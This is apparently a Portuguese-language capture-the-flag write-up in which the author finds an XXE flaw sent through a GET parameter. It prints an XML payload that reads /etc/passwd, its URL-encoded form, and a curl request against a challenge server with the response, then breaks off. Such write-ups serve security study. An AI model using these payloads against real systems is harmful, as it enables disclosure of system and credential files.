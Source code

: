![img](https://github.com/darkcode357/ctf_critical/blob/master/Screenshot%20from%202019-11-15%2017-10-40.png?raw=true)
>percebemos que o header é mal configurado permitindo alterações
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>tendo suporte a xhtml+xml 

>de acordo com os headers do burp falando que poderia ser um xss, validando o xss na função strip na div te pensei ser algo em xml
>descobri a vulnerabilidade xxe, porem pensei que essa vuln era apena em método post, pois testei a vuln no lab do burpsuite
>[link lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files), porem após vários testes em labs 
>tentei fazer via get

> o primeiro modelo de request que eu fiz foi esse 

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```
>seguindo o exemplo do lab do burp 
>porem não deu certo em texto plano logo tentei fazer o encode da url 
>%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20test%20%5B%20%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%20%5D%3E%0A%3CstockCheck%3E%3CproductId%3E1%3C%2FproductId%3E%3CstoreId%3E2%3C%2FstoreId%3E%3C%2FstockCheck%3E
> e consegui a seguinte reposta

```bash

curl http://142.93.73.149:12321/?xml=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20test%20%5B%20%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%20%5D%3E%0A%3CstockCheck%3E%3CproductId%3E1%3C%2FproductId%3E%3CstoreId%3E2%3C%2FstoreId%3E%3C%2FstockCheck%3E

<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
</stockCheck>
```
>ai foi quando eu percebi que realmente era uma falha de xxe, foi quando eu melhorei o meu payload
